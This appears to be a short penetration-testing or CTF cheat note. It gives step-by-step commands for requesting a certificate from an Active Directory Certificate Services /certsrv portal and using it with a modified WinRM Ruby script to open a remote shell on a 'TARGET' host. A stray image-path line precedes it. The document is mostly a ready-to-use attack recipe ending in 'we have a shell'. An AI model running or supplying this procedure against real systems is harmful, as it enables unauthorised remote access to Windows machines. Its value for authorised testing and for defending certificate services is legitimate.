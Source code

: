 # ADCS WinRM Passwordless Authentication

### REQUIREMENTS: Have access to the /certsrv web portal (You can send a CSR for a certificate)

### STEPS:

#### 1) 

    openssl genrsa -des3 -out TARGET.key 2048 (Create private key)

#### 2) 

    openssl req -new -key TARGET.key -out TARGET.csr (Create Certificate Signing Request)

#### 3) 

    Access the /certsrv portal to request a certificate

#### 4) Click advanced certificate request, copy-paste the .csr file contents and leave everything as is.

#### 5) Download the certificate as Base64 Encoded

#### 6) Use https://github.com/Alamot/code-snippets/blob/master/winrm/winrm_shell.rb with a few modifications to use our certificates (Replace the username and password variables with :client_cert => 'certnew.cer', and :client_key => 'TARGET.key',

#### 7) 

    rlwrap ruby winrm_shell.rb

#### 8) Congratulations, we have a shell!

